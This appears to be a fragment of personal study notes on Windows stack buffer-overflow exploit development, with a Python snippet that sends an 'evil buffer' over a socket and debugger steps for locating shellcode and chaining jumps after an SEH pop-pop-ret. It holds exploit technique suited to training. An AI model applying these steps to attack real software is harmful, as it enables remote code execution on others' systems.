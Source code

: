 ```
    buf = header + inputBuffer
    print("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buf)
    s.close()
```

## Short/Long jump to shellcode
The full shellcode may not be located at the begenning of the stack, so you should search it address in the stack

## shellcode 

### inspect the callstack (k) to determine which functions were called before the eip was overwritten

## Island hooping 
after P/P/R, `u eip` or `dds esp` 
do we need to jump ? if yes
```
a
jmp 0x018fff5c # 0x018fff5c being here where we want to jump to from the current step
u eip L1 # this will give the assembly opcode for the jump
dds eip L4
